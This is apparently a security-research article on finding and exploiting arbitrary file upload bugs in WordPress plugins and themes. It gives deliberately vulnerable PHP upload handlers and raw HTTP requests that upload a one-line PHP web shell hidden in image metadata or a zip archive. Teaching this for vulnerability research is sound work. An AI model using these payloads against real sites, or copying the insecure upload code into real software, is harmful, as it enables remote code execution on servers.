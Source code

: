 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```

## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
  - [move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)
  - [file_put_contents](https://www.php.net/manual/en/function.file-put-contents)
  - [fwrite](https://www.php.net/manual/en/function.fwrite)
  - [fputs](https://www.php.net/manual/en/function.fputs.php)
  - [copy](https://www.php.net/manual/en/function.copy.php)
  - [fputcsv](https://www.php.net/manual/en/function.fputcsv.php)
  - [rename](https://www.php.net/manual/en/function.rename.php)
- WordPress related
  - [WP_Filesystem_Direct::put_contents](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
  - [WP_Filesystem_Direct::move](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
  - [WP_Filesystem_Direct::copy](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
  $file = $_FILES["file"];
  $ext = end(explode('.',$file_name));

  if($ext !=== "zip"){
    die();
  }
  
  $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
  move_uploaded_file($file["tmp_name"], $file_path);

  $zip = new ZipArchive;
  $f = $zip->open($file_path);

  if($f){
    $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
    $zip->close();
  }

}
``` 

To bypass the above check, basically we need to prepare a valid zip file and add a malicious PHP file inside of the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)
- [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)
- [finfo_file](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
  $file = $_FILES["file"];
  $file_type = mime_content_type($file["tmp_name"]);
  $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
  
  if(in_array($file_type, get_allowed_mime_types())){
    move_uploaded_file($file["tmp_name"], $file_path);
    echo "file uploaded";
  }
  else{
    echo "file mime type not accepted";
  }

}
```

To bypass the above check, basically we need to prepare a valid PNG file and append a malicious PHP code on the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
  $file = $_FILES["file"];
  $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
  $size = getimagesize($file["tmp_name"]);
  $fileContent = file_get_contents($_FILES['file']);

  if($size){
    file_put_contents($file_path, $fileContent);
    echo "image uploaded";
  }
  else{
    echo "invalid image size";
  }

}
```

To bypass the above check, basically we need to prepare a valid image file and append a malicious PHP code on the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```